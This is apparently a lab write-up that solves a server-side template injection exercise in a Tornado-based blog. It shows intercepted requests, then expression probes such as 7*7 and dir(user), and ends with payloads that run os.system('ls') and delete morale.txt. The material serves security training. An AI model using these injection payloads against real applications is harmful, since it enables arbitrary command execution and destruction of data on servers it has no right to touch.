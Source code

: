 # Description

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`


## Solution

In /my-account page, there is no SSTI vuln.
I tried to inject in comments but nothing happend. So there is additional functionality, we can assign what will be publically showed when i save comments. I could only choose fist name, last name and nickname. But i can only change email. I just intercepted changing show name

data of request
```
blog-post-author-display=user.name&csrf=sIeljbsaZ6Puahx8ZxNfLapptoIAcvKh
```

malicious request
```
blog-post-author-display=user.email&csrf=sIeljbsaZ6Puahx8ZxNfLapptoIAcvKh
```


Now, our email will show in page

and indeed when we visit blog post with our comment

```
#### Internal Server Error

Traceback (most recent call last): File "<string>", line 16, in <module> File "/usr/local/lib/python2.7/dist-packages/tornado/template.py", line 348, in generate return execute() File "<string>.generated.py", line 4, in _tt_execute AttributeError: User instance has no attribute 'email'
```

We broke server, my email was `{{7*7}}@mail.com`

Unfortunatly, site was crashed not because of SSTI, but because of that for some reason, there is no attribute email in user.

But we can execute python code

request
```
blog-post-author-display=dir(user)&csrf=sIeljbsaZ6Puahx8ZxNfLapptoIAcvKh
```

```
[&#39;__doc__&#39;, &#39;__init__&#39;, &#39;__module__&#39;, &#39;first_name&#39;, &#39;name&#39;, &#39;nickname&#39;] | 29 May 2024
```

Hmmm... there is indeed no attribute for email.

```
blog-post-author-display=7*7&csrf=sIeljbsaZ6Puahx8ZxNfLapptoIAcvKh
```

also standard payload works, and displays 49

> [!success]
> i have successfully executed command

payload 
```python
blog-post-author-display=__import__("os").system("ls")&csrf=sIeljbsaZ6Puahx8ZxNfLapptoIAcvKh
```

helpfully for https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes

## Final payload

```python
blog-post-author-display=__import__("os").system("rm%20morale.txt")&csrf=sIeljbsaZ6Puahx8ZxNfLapptoIAcvKh
```


